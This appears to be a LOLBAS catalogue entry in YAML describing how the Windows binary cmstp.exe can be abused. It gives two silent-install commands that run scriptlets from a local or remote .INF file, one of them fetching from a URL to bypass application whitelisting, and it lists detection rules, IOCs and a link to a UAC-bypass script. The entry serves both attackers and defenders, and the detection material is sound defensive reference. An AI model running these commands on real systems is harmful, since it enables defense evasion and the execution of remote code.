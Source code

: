 ```yaml
---
Name: Cmstp.exe
Description: Installs or removes a Connection Manager service profile.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
    Category: Execute
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\cmstp.exe
  - Path: C:\Windows\SysWOW64\cmstp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6d0d58dfe240f7ef46e7da928c0b65223a46c3b2/rules/windows/process_creation/sysmon_cmstp_execution_by_creation.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_uac_cmstp.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/cmlua_or_cmstplua_uac_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - IOC: Execution of cmstp.exe without a VPN use case is suspicious
  - IOC: DotNet CLR libraries loaded into cmstp.exe
  - IOC: DotNet CLR Usage Log - cmstp.exe.log
Resources:
  - Link: https://twitter.com/NickTyrer/status/958450014111633408
  - Link: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - Link: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - Link: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
---
```

